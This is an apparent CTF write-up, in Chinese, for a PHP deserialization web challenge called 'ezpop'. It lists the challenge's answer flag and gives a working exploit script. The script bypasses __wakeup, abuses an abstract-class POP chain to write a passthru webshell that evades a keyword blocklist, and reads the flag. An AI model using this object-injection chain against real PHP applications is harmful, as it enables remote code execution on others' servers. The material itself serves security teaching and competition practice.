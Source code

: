 - **题目名称：** ezpop
- **题目类型：** WEB
- **题目难度：** 中等 
- **出题人：** ABU
- **考点：**

1. 反序列化__wakeup()绕过
2. php抽象类反序列化
3. 命令执行绕过

- **描述：** 听说你是pop大师！

- **flag：** flag{Y0u_Ar3_A_POP_Ma5ter!!!!}

- **Writeup：** 

  php抽象类不能被直接实例化，但其子类可以实例化，并可以通过子类来调用父类方法，并且子类必须实现父类的抽象方法，所以可以通过实例化evil来调用到父类的action方法，进入pass方法，此方法为抽象方法，在子类里实现，所以便进入evil的pass方法，再自己定义一个类来绕过$this->a->d === $this->a->e的判断，用passthru函数绕过函数过滤，用sort读取flag。（当然要先绕过__wakeup()

```php
<?php
class openfunc{
    protected $object;
    function __construct(){
        $this->object=new evil();
    }
    function __wakeup(){
        $this->object=new normal();
    }
    function __destruct(){
        $this->object->action();
    }
}
abstract class hack {

    abstract protected function pass();

    public function action() {
        $this->pass();
    }
}
class normal{
    function action(){
        echo "you must bypass it";
    }
}
class acd #自己定义一个类进行序列化绕过$this->a->d === $this->a->e的判断
{    
    public $d;
    public $e;
    function __construct() 
    {      
        $this->e="a";
        $this->d="a";
    }  

} 
class evil extends hack {
    protected $data;
    protected $a;
    protected $b; 
    protected $c;
    function __construct(){
        $this->data='<?=passthru("sort /fffffl?ggggg");?>';
        $this->b=serialize(new acd());
        $this->c="a";
    }
    protected function pass(){
        $this->a = unserialize($this->b);
        $this->a->d = $this->c;
        if($this->a->d === $this->a->e){
           $this->shell();
        }
        else{
            die('no no no');
        }
    }
    function shell(){
        if(preg_match('/system|eval|exec|base|compress|chr|ord|str|replace|pack|assert|preg|replace|create|function|call|\~|\^|\`|flag|cat|tac|more|tail|echo|require|include|proc|open|read|shell|file|put|get|contents|dir|link|dl|var|dump|php/i',$this->data)){
            die("you die");
        }
        $dir = 'scandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
        if(!file_exists($dir)){
            mkdir($dir);
            echo $dir;
        }
        file_put_contents("$dir" . "hack.php", $this->data);
    }
}
$a=serialize(new Openfunc());
echo urlencode($a);
?>
```

